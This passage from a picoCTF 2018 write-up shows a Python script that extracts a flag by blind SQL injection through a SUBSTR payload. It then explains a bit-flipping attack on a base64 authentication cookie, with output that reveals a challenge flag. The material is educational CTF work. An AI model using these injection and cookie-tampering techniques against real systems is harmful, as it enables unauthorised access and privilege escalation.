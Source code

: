 ```python
#!/usr/bin/python2

import string
import requests
import sys

index = 1
alphabet = string.digits + string.ascii_letters
flag = ''

for count in range(0, 14):
	for character in alphabet:
		payload = "' OR '{}'=SUBSTR(answer,{},1)--".format(character, index)
		data = {'answer': payload, 'submit': 'Answer', 'debug': 1}

		r = requests.post('http://2018shell1.picoctf.com:28120/answer2.php', data=data)
		if 'Wrong' not in r.text:
			index += 1
			flag += character
			print '[{}] {}'.format(count, flag)

			break

data['answer'] = flag
r = requests.post('http://2018shell1.picoctf.com:28120/answer2.php', data=data)
```

## Secure Logon

This challenge requires us to leverage a bit flipping attack on a base64
encoded cookie, which the server uses for user authentication/authorisation.
We notice straight away that the login form accepts any possible user combination,
the source code provided also tells us that if you try to login as 'admin',
you'll be greeted with an error message. This isn't such a big deal, because
the user's privileges are based on the dictionary value ['admin': 0/1] inside
the cookie, not their username or password combination.

At first I thought this was a padding oracle attack, but on further research
that proved to be a dead-end. I woke up in the morning and did a bit more
research, and remembered the bit-flipping attack. I hate writing scripts
which might end up being a gigantic waste of time but I persevered on this
one and got the flag.

```
$ python get.py
[0xe0] 200 {'admin': 4, 'password': '', 'username': 'braeden'}
[0xe1] 200 {'admin': 5, 'password': '', 'username': 'braeden'}
[0xe2] 200 {'admin': 6, 'password': '', 'username': 'braeden'}
[0xe3] 200 {'admin': 7, 'password': '', 'username': 'braeden'}
[0xe4] 200 {'admin': 0, 'password': '', 'username': 'braeden'}
[0xe5] 200 picoCTF{fl1p_4ll_th3_bit3_fa8dae76}
```
